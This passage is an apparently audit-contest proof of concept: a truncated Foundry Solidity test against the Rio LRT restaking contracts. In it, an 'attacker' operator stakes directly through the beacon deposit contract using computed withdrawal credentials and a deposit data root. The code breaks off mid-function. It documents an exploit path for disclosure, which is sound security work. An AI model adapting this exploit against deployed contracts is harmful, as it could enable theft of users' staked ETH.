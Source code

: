 This is PoC. Add it to the RioLRTDepositPool.t.sol file and run it. Add an import statement at the top of the code.

```solidity
import {CredentialsProofs} from 'test/utils/beacon-chain/MockBeaconChain.sol';
import {RioLRTOperatorDelegator} from 'contracts/restaking/RioLRTOperatorDelegator.sol';
import {RioLRTOperatorRegistry} from 'contracts/restaking/RioLRTOperatorRegistry.sol';
import {IStrategy} from 'contracts/interfaces/eigenlayer/IStrategy.sol';
import {Memory} from 'contracts/utils/Memory.sol';
import {ValidatorDetails} from 'contracts/utils/ValidatorDetails.sol';
import {IETHPOSDeposit} from 'contracts/interfaces/eigenlayer/IETHPOSDeposit.sol';

 
    function test_PoCStakeDirectly() public {
        address normalOperator = address(0x01);
        address attackerOperator = address(0x1337);
        uint256 AMOUNT = 32 ether;
        
        vm.deal(attackerOperator, 100 ether);

        (uint8 operatorId, bytes memory publicKeys, bytes memory signatures) = addOperatorDelegator_For_PoC(
            reETH.operatorRegistry,
            address(reETH.rewardDistributor),
            1, // count
            normalOperator, // operator
            true // add validator detail
        );

        address operatorDelegator = reETH.operatorRegistry.getOperatorDetails(operatorId).delegator;

        // Allocate ETH.
        reETH.coordinator.depositETH{value: AMOUNT}();

        // Push funds into EigenLayer.
        vm.prank(EOA, EOA);
        reETH.coordinator.rebalance(ETH_ADDRESS); // 32 ether staked to normalOperator
        skip(reETH.coordinator.rebalanceDelay());

        (uint8 attackerOperatorId, bytes memory attakerPublicKeys, bytes memory attackerSignatures) = addOperatorDelegator_For_PoC(
            reETH.operatorRegistry,
            address(reETH.rewardDistributor),
            1, // count
            attackerOperator, // operator
            false // do not add validator detail
        );

        address attackerOperatorDelegator = reETH.operatorRegistry.getOperatorDetails(attackerOperatorId).delegator;

        {
            // attacker stake directly
            IETHPOSDeposit ethPOS = IETHPOSDeposit(0xff50ed3d0ec03aC01D4C79aAd74928BFF48a7b2b);

            address pod = address(IRioLRTOperatorDelegator(attackerOperatorDelegator).eigenPod());
            bytes32 withdrawalCredentials = bytes1(0x01) | bytes32(uint256(uint160(pod)));
            bytes32 depositDataRoot = _computeDepositDataRoot(withdrawalCredentials, attakerPublicKeys, attackerSignatures);
            
            vm.prank(attackerOperator);

```